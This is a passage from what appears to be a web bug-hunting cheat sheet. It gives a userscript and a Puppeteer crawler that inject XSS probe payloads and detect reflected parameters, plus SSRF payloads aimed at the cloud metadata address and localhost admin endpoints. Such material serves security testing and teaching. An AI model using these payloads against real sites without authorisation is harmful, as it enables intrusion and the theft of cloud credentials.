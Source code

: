#### B) **Tampermonkey userscript** (param reflection hunting)

```js
// ==UserScript==
// @match       *://*/*
// @grant       none
// ==/UserScript==
(function(){
  const q = new URL(location).searchParams;
  for (const [k,v] of q) {
    if (document.body?.innerHTML.includes(v)) {
      console.log('[REFLECTION]', k, v);
    }
  }
})();
```

#### C) **Node + Puppeteer** (crawl & reflection detector)

```js
import puppeteer from 'puppeteer';
const start = process.argv[2];
const browser = await puppeteer.launch({headless:'new'});
const page = await browser.newPage();
await page.goto(start,{waitUntil:'domcontentloaded'});

const params = [['x','"><img src=x onerror=alert(1)>'], ['q','%27;alert(1)//']];
for (const [k,p] of params){
  const url = new URL(start); url.searchParams.set(k,p);
  await page.goto(url.toString(),{waitUntil:'domcontentloaded'});
  const reflects = await page.evaluate(v=>document.documentElement.innerHTML.includes(v), p);
  if (reflects) console.log('[REFLECTS]', k, url.toString());
}
await browser.close();
```

***

### XII. 🛰️ Client-Side SSRF-ish (fetch to internal)

Modern browsers block direct intranet access from foreign origins, but **misconfigured CORS** or **proxy endpoints** can enable internal fetches:

* Endpoints like `/proxy?url=http://169.254.169.254/latest/meta-data/`
* **PDF renderers / image fetchers** server-side → try internal targets.

Payload:

```
/proxy?url=http://127.0.0.1:8080/admin
```

***
